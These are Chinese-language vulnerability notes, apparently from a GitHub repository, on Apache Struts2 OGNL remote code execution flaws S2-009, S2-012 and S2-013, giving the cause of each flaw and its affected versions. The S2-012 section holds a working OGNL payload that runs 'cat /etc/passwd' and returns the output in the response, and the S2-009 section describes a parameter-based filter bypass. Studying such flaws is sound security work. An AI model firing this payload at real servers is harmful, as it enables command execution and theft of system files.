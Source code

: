 #### S2-009

Struts2 showcase远程代码执行漏洞

漏洞原理

> 这个漏洞再次来源于s2-003、s2-005
> 参考[Struts2漏洞分析之Ognl表达式特性引发的新思路](https://www.t00ls.net/viewthread.php?tid=21197)，文中说到，该引入ognl的方法不光可能出现在这个漏洞中，也可能出现在其他java应用中
>
> Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线
>
> 但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御
>
> _通过Struts2框架中ParametersInterceptor拦截器只检查传入的参数名而不检查参数值的方式进行构造OGNL表达式从而造成代码执行_
>
> **影响版本**：Struts 2.0.0 - Struts 2.3.1

#### s2-012

> 如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param\_name} 作为重定向变量，例如：
>
> ```xml
> <package name="S2-012" extends="struts-default">
>     <action name="user" class="com.demo.action.UserAction">
>         <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
>         <result name="input">/index.jsp</result>
>         <result name="success">/index.jsp</result>
>     </action>
> </package>
> ```
>
> 这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行
>
> **影响版本**: 2.1.0 - 2.3.13

poc

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

#### S2-013

> Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：
>
> 1. none - 链接不包含请求的任意参数值（默认）
> 2. get - 链接只包含 GET 请求中的参数和其值
> 3. all - 链接包含 GET 和 POST 所有参数和其值
>
> `<s:a>`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞
>
> **影响版本**：2.0.0 - 2.3.14.1
